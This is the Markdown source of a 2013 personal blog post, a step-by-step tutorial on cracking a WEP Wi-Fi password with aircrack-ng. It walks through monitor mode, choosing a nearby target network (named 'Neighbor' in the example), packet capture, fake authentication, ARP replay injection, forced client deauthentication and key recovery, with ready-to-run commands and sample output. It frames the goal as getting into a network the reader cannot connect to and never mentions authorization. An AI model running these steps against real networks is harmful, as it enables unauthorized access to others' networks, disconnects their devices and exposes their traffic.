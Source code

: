```yaml
---
layout: post
title: "WEP Passwords with Aircrack-ng"
date: 2013-02-09 09:30
---
```


So I was bored, and decided to learn the basics of using `aircrack-ng`, the
wi-fi password cracker. Now I'm bored again, so I'm writing about it.

## Preface

What we'll do is capture freely flowing information from a network we can't
connect to, and crunch that data with the `aircrack` tool in the hopes of
deducing the password.

Your interface's names may vary. Use `iwconfig`. For other names and values,
I'll give examples for you to tailor.

## Step 0: install the toolset

In Debian:

    ~# apt-get install aircrack-ng
    
## Step 1: monitoring

Before we can start sniffing the air for packets, we need to put the network
interface in monitor mode. Otherwise, it will restrict itself to packets
addressed to us. We want to be all ears.

Before you do this, disconnect `wlan0`. Ready? Now:

    ~# airmon-ng start wlan0

You should see something like this:

    Interface   Chipset     Driver

    wlan0       Unknown     brcmsmac - [phy0]
                    (monitor mode enabled on mon0)
    
## Step 2: selecting a target

We want to catch a glimpse of what's going on with all reachable networks. Run:

    ~# airodump-ng mon0

The output may be confusing at first glance. Let's go over the important bits:

The top line shows the current channel being listened to (`CH n`), and it
should be hopping from channel to channel.

The table below lists discovered access points.

    BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    92:FC:11:E1:FF:2F  -74      140      120    0   9  54e. WEP  WEP         Neig

You'll probably recognize the names. You're looking for a network with:

1. `WEP` encryption (WPA is basically brute force, and thus boring to wait
for).

2. An increasing number of `Data` packets, meaning that a client is connected
and active. These are the packets we'll be sniffing.


The bottom table shows clients. If there's `#Data` flowing around, that
probably means you'll see somebody here.

Once you've picked your target, save away:

1. `BSSID` (MAC address), `CH` (wi-fi channel) and `ESSID` (name) from the top
table.

2. `STATION` (MAC address) of an active client in the second table.

The second bit is not necessary, but it will speed things up **considerably**.

## Step 3: capture packets

Let's run `airodump` again, but this time restricting ourselves to our target
network and dumping everything down:

    ~# airodump-ng mon0 --channel 6 --bssid 00:1A:70:85:9D:11 -w logfile

Again you'll see it capturing packets, but this time it should only list this
particular network and its clients.

You'll want to let it capture between `40.000` and `80.000` data packets. You
may need more, you may need less. This is not guaranteed to work on every try.

Leave this running.

## Step 3.5: speed up the capture

This may be a slow process on low network activity, but we may be able to speed
it up quite a bit by injecting packets.

Basically, since WEP packets are replayable (you can bounce them back and forth
and they will remain valid), we may be able to catch an [ARP](http://en.wikipedia.org/wiki/Address_Resolution_Protocol)
packet and replay it endlessly to generate traffic we can analyze.

First, you may want to try if injection works on every end (your drivers too
must be compliant here) by faking an authentication with the access point:

    ~# aireplay-ng wlan0 --fakeauth 0 -e "Neighbor" -b 92:FC:11:E1:FF:2F

Fortunately, you'll see this:

    Sending Authentication Request
    Authentication successful
    Sending Association Request
    Association successful :-)
    
This will not generate an ARP packet we can catch, we still need a real client
to use as source. So, if it's working, grab the MAC address of the client you
got earlier (`STATION` in the lower table?) and run:

    aireplay-ng --arpreplay -b 92:FC:11:E1:FF:2F -s <client MAC> wlan0
    
You now need to wait for an ARP packet to show up. When it does, you'll immediately
notice a **massive** increase in the rate of packets captured by `airodump`.

If the wait turns out to be long (this depends on your patience), we have one more
shot: injecting a deauthentication for the client, forcing him to emmit an ARP packet
`aireplay` can sniff.

    aireplay-ng --deauth 5 -b 92:FC:11:E1:FF:2F -d <client MAC> wlan0

That'll do it 5 times by itself, and you can re-run if it doesn't work right away.
Again, this is not guaranteed to succeed.

## Step 4: crack the password

When you decide to stop `airodump`, you'll see `logfile-01.cap` (or an
incrementally numbered variant) among the files produced. Run `aircrack`:

    aircrack-ng --bssid 92:FC:11:E1:FF:2F logfile-01.cap

With any luck, you'll have your password. Cheers!
